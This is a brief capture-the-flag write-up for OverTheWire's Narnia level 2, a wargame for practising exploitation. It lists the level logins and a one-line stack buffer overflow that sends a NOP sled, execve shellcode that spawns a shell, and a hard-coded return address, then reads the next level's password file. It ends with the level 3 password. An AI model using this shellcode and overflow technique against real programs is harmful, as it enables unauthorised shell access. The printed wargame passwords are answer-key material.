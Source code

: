 ### Narnia Level 2

[narnia2](http://overthewire.org/wargames/narnia/narnia2.html)

**Username**: *narnia2*

**Password**: *nairiepecu*

#### Solution

* http://shell-storm.org/shellcode/files/shellcode-811.php

```bash
./narnia2 $(python -c 'print "\x90"*112 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x70\xd8\xff\xff"')
cat /etc/narnia_pass/narnia3
```

#### Credentials for Level 3

**Username**: *narnia3*

**Password**: *vaequeezee*